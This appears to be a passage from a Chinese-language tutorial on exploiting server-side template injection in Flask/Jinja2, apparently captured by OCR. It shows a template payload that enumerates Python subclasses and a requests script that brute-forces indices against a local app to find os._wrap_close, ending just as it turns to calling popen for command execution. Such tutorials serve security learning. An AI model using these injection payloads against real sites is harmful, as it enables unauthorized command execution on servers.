第三步，拿到基类的子类，用`__subclasses__()`

```bash
name={{"".__class__.__bases__[0]. __subclasses__()}}
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, 
```

接下来的话，就要找可利用的类，寻找那些有回显的或者可以执行命令的类  
大多数利用的是`os._wrap_close`这个类，我们这里可以用一个简单脚本来寻找它对应的下标

```bash
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    url = "http://127.0.0.1:5000/?name=\
        {{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"
    res = requests.get(url=url, headers=headers)
    #print(res.text)
    if 'os._wrap_close' in res.text:
        print(i)
```

运行一下  
[![在这里插入图片描述](assets/1698900310-d342777ce72987f69fea43ca87a8a6ce.png)](https://storage.tttang.com/media/attachment/2022/08/14/c97e246e-5b0b-4f47-81a1-e2794f34f5c6.png)  
[![在这里插入图片描述](assets/1698900310-fd2bfefe609040250d5fc6ff3eab12e7.png)](https://storage.tttang.com/media/attachment/2022/08/14/ac6e4d25-b711-4930-9fed-bd3e3516dc7e.png)  
接下来就可以利用`os。_wrap_close`，这个类中有`popen`方法，我们去调用它  
首先  
先调用它的\_\_init\_\_方法进行初始化类
